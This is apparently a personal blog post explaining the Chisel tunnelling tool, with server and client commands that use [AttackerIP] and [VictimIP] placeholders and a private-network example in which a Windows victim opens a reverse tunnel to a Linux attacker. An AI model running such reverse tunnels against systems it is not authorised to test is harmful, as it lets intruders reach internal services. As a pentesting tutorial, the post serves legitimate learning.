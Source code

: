 ```yaml
---
layout: single
title: Chisel -- Tool Portforwarding
date: 2024-02-20
classes: wide
header:
    icon: /assets/images/toolChisel/HeadChisel.PNG
categories:
  - Tool
  - SSH
tags:
  - Tool
  - Linux
  - Windows
  - SSH
---
```


This post is for explain chisel in his basic state, used to create a server and client to allow portforwarding between two machines.

Tool: [Chisel Github](https://github.com/jpillora/chisel "Chisel github by jpillora")

## Concept of Chisel Client-Server
![](/assets/images/toolChisel/WorkflowClient-server.PNG)

## Commands for Windows and Linux

```
Server: chisel server -reverse -port [PortNum]

Client: chisel [AttackerIP]:[PortNum] [VictimIP/Loopback]:[PortNumVictim]
```

## Example

PoC: Linux IP: 10.0.2.10
     Windows IP: 10.0.3.10

```
Linux machine command: ./chisel server -reverse -port 8888
Windows machine command: chisel.exe client 10.0.2.10:8888 127.0.0.1:443
```